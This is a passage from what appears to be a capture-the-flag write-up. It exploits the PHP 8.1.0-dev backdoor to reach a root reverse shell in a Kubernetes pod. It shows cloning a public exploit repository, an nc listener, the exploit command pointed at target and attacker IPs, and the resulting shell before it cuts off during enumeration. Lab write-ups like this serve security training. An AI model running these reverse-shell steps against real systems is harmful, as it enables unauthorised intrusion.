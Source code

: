 ```bash
$ id
uid=0(root) gid=0(root) groups=0(root)
```

<img width="1291" height="534" alt="image" src="https://github.com/user-attachments/assets/b2822499-c188-4a13-b86b-68d763d05c14" />


<p align="center">Downloaded  a repository</p>

```bash
:~/FrankandHerbyTryAgain# git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce
```

```bash
:~/FrankandHerbyTryAgain/php-8.1.0-dev-backdoor-rce# ls
backdoor_php_8.1.0-dev.py  docs  README.md  revshell_php_8.1.0-dev.py
```

<p align="center">Reverse Shell Listener Setup</p>

```bash
:~/FrankandHerbyTryAgain# nc -nlvp 9001
Listening on 0.0.0.0 9001
```

<p align="center">Exploit review</p>

```bash
python3 revshell_php_8.1.0-dev.py http://<Target_IP>:<Target_Port> <Attack_IP> <Attack_Port>
```

<br>
<br>
<h1 align="center">Delivery and Execution<a id='6'></a></h1>
<p align="center">Executed the exploit</p>

```bash
:~/FrankandHerbyTryAgain/php-8.1.0-dev-backdoor-rce# python3 revshell_php_8.1.0-dev.py http://xx.xxx.xx.xx:30679 xx.xxx.xx.xx 9001
```

<br>
<br>
<h1 align="center">Initial Foothold<a id='7'></a></h1>

```bash
:~/FrankandHerbyTryAgain# nc -nlvp 9001
...
root@php-deploy-6d998f68b9-fvtcg:/var/www/html# 
```

<h1 align="center">Privileged Access via Kubernetes Service Account & User Flag<a id='8'></a></h1>

```bash
root@php-deploy-6d998f68b9-fvtcg:/var/www/html# ls -lah
ls -lah
total 16K
drwxrwxr-x 2 1000 1000 4.0K Mar 21  2022 .
drwxr-xr-x 3 root root 4.0K Mar 30  2021 ..
-rw-rw-r-- 1 1000 1000  640 Mar 21  2022 index.php
-rw-rw-r-- 1 1000 1000   20 Mar 21  2022 info.php
```
